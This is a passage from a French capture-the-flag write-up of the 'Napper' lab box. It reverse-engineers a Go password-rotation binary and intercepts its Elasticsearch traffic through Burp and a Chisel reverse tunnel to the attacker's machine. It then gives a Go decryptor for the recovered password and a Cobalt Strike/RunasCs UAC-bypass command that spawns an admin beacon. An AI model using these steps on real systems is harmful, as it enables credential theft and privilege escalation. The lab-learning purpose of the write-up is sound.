Et même si IDA 8.3 arrive à retrouver les strings Go (pas de null byte, comme en Rust) ainsi que quelques structures (`http_Transport`)c'est peu lisible surtout sur la fin , on est bien sur du Go 😖. Je ne vais pas rentrer dans tous les détails mais voilà des points importants à prendre en compte:

* Même si IDA prend en compte la convention d'appel de Golang: Les arguments sont passées dans `RAX, RBX, RCX, RDI, RSI, R8, R9, R10, R11` et les variables de retour retournées par valeurs sont passées dans `RAX` et `RBX`. Ce qui fait que si une fonction retourne une paire de valeur avec une option d'erreur comme par exemple:

```go
	b, err := json.Marshal(var)
	if err != nil {
		fmt.Println("error:", err)
	}
	os.Stdout.Write(b)
```

`err` sera retournée à partir de `RBX` mais si la fonction n'est pas bien prototypée pour retourner une valeur contenue dans deux registres, le décompilateur ne va pas considérer `RBX` comme un valeur de retour si bien qu'une des clause du `if` ne sera pas affichée comme sur l'exemple ci-dessous où je n'ai appliqué aucune modification:

<div>
    
</div>

Le décompilateur affiche seulement le basic block d'erreur qui appelle `Log.Fatal`.
* Bien penser à utilser l'option `set call type` en plus de retyper les pointeurs de fonctions.

* Etant donné que les librairies sont linkés directement dans le binaire, il faudra souvent se référrer au code source pour voir les prototypes des fonctions, par défault IDA a du mal à trouver le bon nombre d'arguments passé à une fonction par exemple:

<div>
    
</div>

On se réferre au code source du package `elasticsearch` de Go sur github:

<div>
    
</div>

Et on retype la fonction:

<div>
    
</div>

* Tout comme le Rust, le Go va visisblement faire usage des registres mis à disposition par le `SSE` et notamment pour mettre à zéro 16 bytes mémoire d'un coup, pour les strings par exemple:

<div>
    
</div>

* Les fonctions nommées `main_funcN` sont des fonctions anonymes parfois utilisées par le runtime, dans notre cas il ne sera pas utile de les reverse.

* L'usage des types génériques se fait en passant paramètre `RTYPE` associé à un pointeur. Par exemple pour le type `any` qui est un aliais pour une interface vide `interface{}` et notamment utilisé dans le binaire par la fonction `json.Unmarshal` qui prend en argument une slice de bytes et un pointeur de type `any` vers un objet où déserialiser le JSON. Voilà comment l'appel à `json.Unmarshal` pourrait être décompilé:

<div>
    
</div>

On voit bien que la structure passée en second paramètre a deux champs avec le premier qui indique le type pointé par le second. Pour obtenir ce résultat j'ai créé le type local suivant:

```c
struct any_main_Seed
{
    const int* rtype;
    _ptr_main_Seed main_seed_ptr;
};
```

## Analyse de la fonction main.main

Une fois tous les ajustements fait, le code parait un peu plus lisible même si évidemment il y'a beaucoup d'appels qui servent au runtime pour le garbage collector notamment:

<div>
    
</div>

On remarque quand même que le programme va utiliser la fonction `os.Getenv` pour récupérer les variables d'environnement contenues dans le premier fichier. Ensuite le programme crée un objet `config` qu'il utilise pour contacter le serveur elasticsearch sur l'endpoint`_seed/1` via une requête `GET` et vérifie si la requête retourne une erreur:

<div>
    
</div>

Ensuite il extrait de la réponse JSON un objet de la structure `main.Seed` dont il va dériver une clé qu'il passera à la fonction `genKey`:

<div>
    
</div>

On va avant ça jeter un oeil aux autres fonctions du module main.

## Analyse de la fonction main.randStringList

Cette fonction se passe de commentaire, elle va juste piocher au hasard 40 lettres dans l'alphabet minuscule et majuscule et les retouner dans une string. Ici le principal obstacle à la décompilation est l'usage d'une stack string avec des caractères unicode, c'est pourquoi IDA ne nous sort pas une belle chaine de caractères même si c'est un simple alphabet `a-zA-Z`:

<div>
    
</div>

## Analyse de la fonction main.genKey

Cette fonction aussi est très simple, elle utilise la graine retournée par le serveur pour générer une slice de 16 nombres aléatoires.

<div>
    
</div>

Je ne vais pas trop rentrer dans les détails de la fonction `main.encrypt` car elle va simplement chiffrer la chaine de 40 caractères aléatoires avec la clé dérivée de la graine envoyée par le serveur en utilisant un iv lui aussi dérivé de la graine en utilisantl le package `crypto.rand`. Le chiffrement se fait avec de l'AES CFB de manière très similaire à ce [code là](https://pkg.go.dev/crypto/cipher#example-NewCFBEncrypter) disponible dans la documentation du module crypto. La chaine chiffrée est ensuite encodée en base 64.

## Suite de la fonction main.main

On remarque ensuite que la fonction main essaye de créer un nouvel indice dans la base de données elasticsearch nommé `user-00001`:

<div>
    
</div>

Ensuite le programme va récupérer la chaine encodée en base64, l'associer au timestamp actuel et stocker le résultat dans un objet JSON sous la forme d'une tranche de bytes:

<div>
    
</div>

Et c'est ces données JSON qui sont ensuite envoyés avec une requète POST vers l'endpoint `user-00001` récemment créé.

<div>
    
</div>

Et c'est là que le programme devient intéressant:

<div>
    
</div>

Ce code va mettre à jour le mot de passe de l'utilisateur backup avec la commande `net user backup <nouveau_mdp>` et on remarque que le mot de passe mis à jour consiste en les 40 caractères aléatoires générés dans la fonction `randStringList`.

## Résumé de la rétro-ingéniérie

Pour synthétiser, a.exe est la version alpha d'un système de LAPS qui va mettre régulièrement à jour le mot de passe de l'utilisateur backup. Pour ce faire il va récupérer une graine sur le serveur elasticsearch, générer un mot de passe de 40 caractères et envoyer sur l'indice user-00001 la version chiffrée de ce mot de passe.

Après avoir compris le principe du programme on va essayer d'intercepter les requêtes entre le binaire et le serveur elasticsearch pour ensuite les instrumenter et retrouver la graine et le mot de passe chiffré. 😈

# Interception des requètes du système LAPS

Pour voir plus en détail les requetes envoyées par le binaire `a.exe`, j'ai choisi d'exploiter le fait que le fichier contenant les variables d'environnment pour accéder et s'authentifier auprès du serveur Elasticsearch soit modifiable par l'utilisateur ruben: Je vais mettre en place un `Invisible Proxying` avec burpsuite pour intercepter les requetes:

1. On commence par modifier le fichier `.env` comme ceci:

```txt
ELASTICUSER=user
ELASTICPASS=DumpPassword\$Here

ELASTICURI=https://10.10.15.28:8080
```

De cette manière, le binaire va envoyer ses requetes vers notre machine qui écoutera sur le port `8080`.

2. On configure Burpsuite pour rediriger les requetes arrivant sur le port `8080` vers le port local `7070` (j'expliquerai après pourquoi). Il faut bien penser à cocher l'option `Support invisible proxying`: Par défault les proxy sont fait pour recevoir des requêtes légèrement différentes de celles envoyées directement au serveur (Je fais un apparté dessus car ça m'a pas mal surpris ^^):

* Requete classique:
```
GET /endpoint HTTP/1.1
...
```

* Requete envoyée au proxy:
```
GET https://host.com/endpoint HTTP/1.1
...
```

De cette manière, le proxy sait à quel endroit il doit renvoyer la requete. Ce qui fait que si accède au proxy avec une requete classique (si le client ne sait pas que sa requete va être intercepter par un proxy), il ne saura pas où renvoyer la requete et c'est pourquoi il faut activer l'option propre au proxying invisible dans ce cas précis.

<div>
    
</div>

3. Maintenant qu'on intercepte les requetes, il faut pouvoir les renvoyer, le problème c'est que le service Elasticsearch tourne sur un port local. Pour quand même y accéder on peut utiliser un programme de `tunelling` comme [Chisel](https://github.com/jpillora/chisel.git) par exemple. Sur notre machine on lance chisel sur le port `8888` comme ceci:

```
chisel server --reverse --port 8888
2024/01/18 15:50:17 server: Reverse tunnelling enabled
2024/01/18 15:50:17 server: Fingerprint aMoxp6TruQ5Q+hycxvGU5lcZDl1r+9Chm6EyWbYyrJM=
2024/01/18 15:50:17 server: Listening on http://0.0.0.0:8888
2024/01/18 15:50:39 server: session#1: Client version (1.9.1) differs from server version (1.9.1-0kali1)
2024/01/18 15:50:39 server: session#1: tun: proxy#R:7070=>localhost:9200: Listening
```

Et on va forward le trafic qui arrive sur notre port local 7070 (car c'est là que burpsuite va renvoyer les requetes reçues) vers le port 9200 de la box comme ceci:

```
[01/18 15:50:39] beacon> run chisel.exe client 10.10.14.207:8888 R:7070:localhost:9200
[01/18 15:50:39] [*] Tasked beacon to run: chisel.exe client 10.10.14.207:8888 R:7070:localhost:9200
[01/18 15:50:39] [+] host called home, sent: 75 bytes
[01/18 15:50:49] [+] received output:
2024/01/18 12:50:41 client: Connecting to ws://10.10.14.207:8888
2024/01/18 12:50:41 client: Connected (Latency 25.4875ms)
```

Et si maintenant on lance le programme a.exe sur la box:

<div>
    
</div>

On arrive bien à intercepter l'échange entre le binaire et le serveur Elasticsearch! Voilà un schéma explicatif qui résume le procédé:

```goat    
              .------------------.
 .------------|Machine attaquante|--------------.
|             '------------------'               |
|                                                |
|           .-------------------.                |
|          |                     |               |
|          |                     v               |
|          |                   .----.            |
|          |                   |7070|            |
|  .--------------.            '----'            |
|  |   Burpsuite  |               |              |
|  '----.----.----'              .-.             |
 '------|8080|-------------------| |------------' 
        '----'                   | |
          ^                      | | chisel tunnel
          |                      | |
          |       .----------.   | |
 .--------|-------|Box Napper|---| |------------.
|         |       '----------'   | |             |
|  .---------------.             '-'             | 
|  |     a.exe     |              |              |
|  '---------------'              v              |
|         |                    .----.            |
|  .---------------.     .-----|9200|-----.      |
|  |     .env      |     |     '----'     |      |
|  |               |     | Elasticsearch  |      |
|  |     URI =     |     '----------------'      |
|  |  <IP> + 8080  |                             |
|  |               |                             |
|  '---------------'                             |
|                                                |
 '----------------------------------------------' 
```

En jetant un oeil aux requetes interceptés on remarque bien les 3 décrites précédemment et on remarque que la requete censée créé l'utilisateur associé à l'utilisateur `backup`
sur le serveur Elasticsearch retourne une erreur:

```json
{
  "error": {                                                                                           
    "root_cause": [                                                                                    
      {                                                                                                
        "type": "resource_already_exists_exception",                                                   
        "reason": "index [user-00001/vqTsf_ziT66Jk_eqjT9lRg] already exists",                          
        "index_uuid": "vqTsf_ziT66Jk_eqjT9lRg",                                                        
        "index": "user-00001"                                                                          
      }                                                                                                
    ],                                                                                                 
    "type": "resource_already_exists_exception",                                                       
    "reason": "index [user-00001/vqTsf_ziT66Jk_eqjT9lRg] already exists",                              
    "index_uuid": "vqTsf_ziT66Jk_eqjT9lRg",                                                            
    "index": "user-00001"                                                                              
  },                                                                                                   
  "status": 400                                                                                        
}
```
Ce qui est logique car le programme que l'on utilise n'est qu'une version alpha et que la version en production doit déjà avoir ajouté l'utilisateur.

On va maintenant retrouver les valeurs de `seed` et du `Blob` (le mot de passe chiffré) associé à l'utilisateur `user-00001` pour retrouver le mot de passe associé à l'utilisateur backup! Pour cela on envoie la première requete dans le `Repeater` et on remplace le chemin par `/seed/_search?pretty=true` ce qui nous renvoie toutes les informations sur l'index seed:

```json
HTTP/1.1 200 OK
X-elastic-product: Elasticsearch
content-type: application/json
content-length: 412

{
  "took" : 3,
  "timed_out" : false,
  "_shards" : {
    "total" : 1,
    "successful" : 1,
    "skipped" : 0,
    "failed" : 0
  },
  "hits" : {
    "total" : {
      "value" : 1,
      "relation" : "eq"
    },
    "max_score" : 1.0,
    "hits" : [
      {
        "_index" : "seed",
        "_id" : "1",
        "_score" : 1.0,
        "_source" : {
          "seed" : 20187148
        }
      }
    ]
  }
}
```

On répète l'opération avec l'index user-00001:

```json
HTTP/1.1 200 OK
X-elastic-product: Elasticsearch
content-type: application/json
content-length: 568

{
  "took" : 1,
  "timed_out" : false,
  "_shards" : {
    "total" : 1,
    "successful" : 1,
    "skipped" : 0,
    "failed" : 0
  },
  "hits" : {
    "total" : {
      "value" : 1,
      "relation" : "eq"
    },
    "max_score" : 1.0,
    "hits" : [
      {
        "_index" : "user-00001",
        "_id" : "HPq-Ho0B2tGUGA_31Z5d",
        "_score" : 1.0,
        "_source" : {
          "blob" : "fUkHjs17zgsuryIRLgsFp1db2S0XYAL24ptvMcefXEhuAo802CTINDOs3zoMDMIArMdCAvuH2gM=",
          "timestamp" : "2024-01-18T14:43:59.4276945-08:00"
        }
      }
    ]
  }
}
```

Parfait! On va maintenant créer un petit programme en Go qui va faire l'opération inverse que le LAPS pour retrouver le mot de passe de backup!

# Privesc en contexte restreint

J'ai fait ce programme qui peut se passer d'explication pour retrouver le mot de passe, il prend en argument la seed et le blob encodé en base64:

```go
package main


import (
        "fmt"
        "math/rand"
        "io"
        "os"
        "strconv"
        "encoding/base64"
        "crypto/cipher"
        "crypto/aes"
        crand"crypto/rand"
)

func main() {
        seed,_ := strconv.ParseInt(os.Args[1], 10, 64)

        var b64_encrypted_pass = os.Args[2]
        var encrypted_pass, _ = base64.URLEncoding.DecodeString(b64_encrypted_pass)


        key := make([]byte, 16)
        iv := make([]byte, 16)

        rand.Seed(seed)

        for i := 0; i < 16; i++ {
                key[i] = (byte)(rand.Intn(254) + 1)
        }

        io.ReadAtLeast(crand.Reader, iv, 16)

        block, _ := aes.NewCipher(key)
        stream := cipher.NewCFBDecrypter(block, iv)

        stream.XORKeyStream(encrypted_pass, encrypted_pass)
        fmt.Printf("%s",encrypted_pass[len(encrypted_pass)-40:])

}
```

Et résultat:

```txt
go run recup-pass.go 20187148 "fUkHjs17zgsuryIRLgsFp1db2S0XYAL24ptvMcefXEhuAo802CTINDOs3zoMDMIArMdCAvuH2gM="
hmCziGdAJepaFtCpFDXngjldIoWZeIZERuLsUGdw
```

Super nickel! Maintenant on va pouvoir se connecter en tant que l'utilisateur `backup`, mais attention il y'a une difficulté supplémentaire: Si on essaye la fonctionnalité `spawnAs` de Cobalt Strike, on ne va pas recevoir de nouvelles session. La raison à cela est la présence de l'[UAC](https://learn.microsoft.com/en-us/windows/security/application-security/application-control/user-account-control/how-it-works). Très brièvement cette mesure de sécurité de Windows implique que par défault les processus sont lancées dans un contexte de basse intégrité et que pour lancer un programme en tant que membre du groupe d'aministrateurs locaux, un invite nommé le `consent prompt` va devoir être complété. Et cela vaut donc particulièrement pour l'usage de la commande `runas`.

Pour pouvoir outrepasser cette mesure depuis notre reverse shell on va utiliser ce [projet](https://github.com/antonioCoco/RunasCs) très connu qui met à disposition un outil similaire à runas mais avec une option de bypass d'UAC (Je ne vais pas rentrer dans les détails de comment le bypass fonctionne mais libre à vous d'aller regarder).

On va utiliser l'option de cobalt strike `Pivoting -> Listener` pour créer un nouveau listener et générer un nouveau beacon afin d'obtenir la session en tant qu'administrateur. On génère ensuite un payload stageless avec l'option `Payloads -> Windows Stageless Payload`, on l'upload et on a plus qu'à faire un:

```
shell RunasCs.exe backup hmCziGdAJepaFtCpFDXngjldIoWZeIZERuLsUGdw "c:\temp\www\internal\content\posts\internal-laps-alpha\beacon_x64.exe" --bypass-uac
```

Et on obtient le graal:

<div>
    
</div>

Et il ne reste plus qu'à flag!

```txt
[02/04 11:09:05] beacon> shell type C:\Users\Administrator\Desktop\root.txt
[02/04 11:09:05] [*] Tasked beacon to run: type C:\Users\Administrator\Desktop\root.txt
[02/04 11:09:05] [+] host called home, sent: 75 bytes
[02/04 11:09:05] [+] received output:
06f74385a548ddadb3edecfa752caea9
```

# Conclusion

J'ai beaucoup aimé cette box parce qu'elle reposait beaucoup sur du reverse ce qui est assez rare, d'autant plus que le Go constitute toujours un petit challenge dans ce domaine. La seule chose que je regrette c'est que l'option `execute-assembly` de Cobalt Strike pour executer RunasCs comme cela se fait usuellement en red team n'a pas fonctionné sur cette box sans que je puisse vraiment comprendre pourquoi 😅.
